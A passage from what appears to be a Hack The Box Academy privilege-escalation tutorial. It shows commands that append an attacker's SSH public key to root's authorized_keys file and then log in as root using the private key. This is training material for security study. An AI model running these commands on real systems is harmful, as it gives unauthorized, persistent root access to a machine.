   Privilege Escalation

```shell-session
user@remotehost$ echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
```

Now, the remote server should allow us to log in as that user by using our private key:

  Privilege Escalation

```shell-session
TurtleBB@htb[/htb]$ ssh root@10.10.10.10 -i key

root@remotehost# 
```

As we can see, we can now ssh in as the user `root`. The [Linux Privilege Escalation](https://academy.hackthebox.com/module/details/51) and the [Windows Privilege Escalation](https://academy.hackthebox.com/module/details/67) modules go into more details on how to use each of these methods for Privilege Escalation, and many others as well.